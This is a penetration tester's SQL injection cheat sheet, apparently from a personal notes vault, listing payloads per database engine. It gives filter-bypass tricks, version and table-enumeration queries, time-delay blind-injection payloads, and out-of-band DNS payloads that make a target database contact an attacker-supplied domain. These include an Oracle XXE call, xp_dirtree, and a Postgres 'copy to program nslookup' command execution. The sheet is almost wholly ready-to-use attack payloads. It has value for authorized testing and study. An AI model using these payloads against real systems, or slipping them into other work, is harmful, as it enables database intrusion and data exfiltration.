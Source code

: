 # Sql Injection
*Exploit [[3. Methodology/3.2 Exploitation/SQL Injection]]*
## Quick Tests
**Check if input breaks request**
- `-- -`
- `#`
- String -> `||<SLEEP>`
- Integer -> `<SLEEP>`
## Bypass
### Trailing Data with Comments
- Oracle / Microsoft / Postgres - `--COMMENT` `/*COMMENT*/`
- MySQL / MariaDB - `#COMMENT` `-- COMMENT` `/*COMMENT*/`

### Spaces
- Postgres / MySQL / MariaDB - `--SELECT/**/1`

### Quotes
- Postgres - `SELECT $$<COLUMN>$$`

### Keywords
- Postgres - `CHR(65)||CHR(66)||CHR(67)||CHR(68)||CHR(69)||CHR(70)||CHR(71)||CHR(72);`

## POC
### Database Name / Version
- Oracle - `SELECT banner FROM v$version` `SELECT version FROM v$instance`
- Microsoft / MySql / MariaDB - `SELECT @@version`
- Postgres - `SELECT version()`

### Dumping Table / Column Names
- Oracle - `SELECT * FROM all_tables` `SELECT * FROM all_tab_columns WHERE table_name = <TABLE>`
- Microsoft / Postgres / MySql / MariaDB - `SELECT * FROM information_schema.tables` `SELECT * FROM information_schema.columns WHERE table_name = <TABLE>`

## Blind POC
### Time Delays (Blind Injection)
*Exploit [[3. Methodology/3.2 Exploitation/SQL Injection#Conditionals]]*
- Oracle - `dbms_pipe.receive_message(('a'),10)`
- Microsoft - `WAITFOR DELAY '0:0:10'`
- Postgres - `pg_sleep(10)`
- MySql / MariaDB - `sleep(10)`

### DNS Lookup (Blind Injection)
*Exploit [[3. Methodology/3.2 Exploitation/SQL Injection#DNS with Data Exfiltration]]*
- Oracle (v11.2.0.3 - v12.1.0.2) - `SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "<URL>/"> %remote;]>'),'/l') FROM dual`
- Oracle (Elevated privileges) - `SELECT UTL_INADDR.get_host_address('<DOMAIN>')`
- Microsoft - `exec master..xp_dirtree '//<DOMAIN>/a'`
- Postgres - `copy (SELECT '') to program 'nslookup <DOMAIN>'`
- MySql / MariaDB (Windows only) - `LOAD_FILE('\\\\<DOMAIN>\\a')` `SELECT ... INTO OUTFILE '\\\\<DOMAIN>\a'`


# MongoDB
** Safe from traditional attacks, from building a BSON object, instead of assembling a query from string **
** Look for JSON requests **
